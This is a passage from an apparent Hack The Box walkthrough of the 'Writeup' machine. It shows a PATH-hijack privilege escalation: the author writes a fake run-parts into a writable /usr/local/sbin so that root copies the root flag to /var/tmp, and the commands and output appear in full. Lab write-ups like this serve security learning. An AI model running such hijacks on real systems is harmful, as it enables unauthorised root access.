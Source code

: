        lower-case letters, ASCII digits, ASCII underscores, and ASCII minus-hyphens.

       If the --lsbsysinit option is given, then the names must not end in .dpkg-old  or .dpkg-dist or .dpkg-new or .dpkg-tmp, and must
       belong  to  one  or  more  of  the  following  namespaces: the LANANA-assigned namespace (^[a-z0-9]+$); the LSB hierarchical and
       reserved namespaces (^_?([a-z0-9_.]+-)+[a-z0-9]+$); and the Debian cron script namespace (^[a-zA-Z0-9_-]+$).

	  ...
       --lsbsysinit
              use LSB namespaces instead of classical behavior.
{% endhighlight %}

<p>"run scripts or programs in a directory" huh? That sounds amazingly like something we would want to happen. If we could add our own script within <code>/etc/update-motd.d</code> we could trigger it to be executed by root anytime someone ssh'd in to the host. Unfortunately we did not have write capabilities to that folder as jkr and after beating my head against the keyboard for a few minutes I took a step back.</p>

<p>That's when I realized my mistake... take a look at the pspy output again. How is run-parts being run? Explicit location or...relative location! Since we know exactly what <code>PATH</code> is being set to all we have to do is write our own run-parts in one of the PATH locations prior to its regular location. While we didn't have read entitlements at <code>/usr/local/sbin</code> we did have write entitlements. Since I knew the location of the root flag I decided to skip doing anything fancy like a reverse shell and K.I.S.S.</p>

{% highlight python %}
jkr@writeup:/usr/local$ touch sbin/run-parts
jkr@writeup:/usr/local$ echo "cat /root/root.txt > /var/tmp/sneaky.txt" > sbin/run-parts
jkr@writeup:/usr/local$ chmod +x sbin/run-parts
{% endhighlight %}

<p>Now simply open a new terminal and let's hope that everything went smoothly.</p>

{% highlight python %}
jkr@writeup:/var/tmp$ ls -latr
total 12
drwxr-xr-x 12 root root 4096 Apr 19 04:24 ..
drwxrwxrwt  2 root root 4096 Oct  1 17:12 .
-rw-r--r--  1 root root   33 Oct  1 17:12 sneaky.txt
jkr@writeup:/var/tmp$ cat sneaky.txt 
eeba47**********************
{% endhighlight %}

<p>And just like that Writeup is officially in the books.</p>

<h1>Extra fun</h1>

<p>At some point during the pspy enumeration phase I captured what I can only assume was someone utterly exasperated. Unfortunately for them I was too busy trying to get to the end of this box.<p>

<p>
<img src="{{ '/assets/htb-writeup/womp1.PNG' | relative_url }}">
</p>

<p>Thanks folks. Until next time.</p>


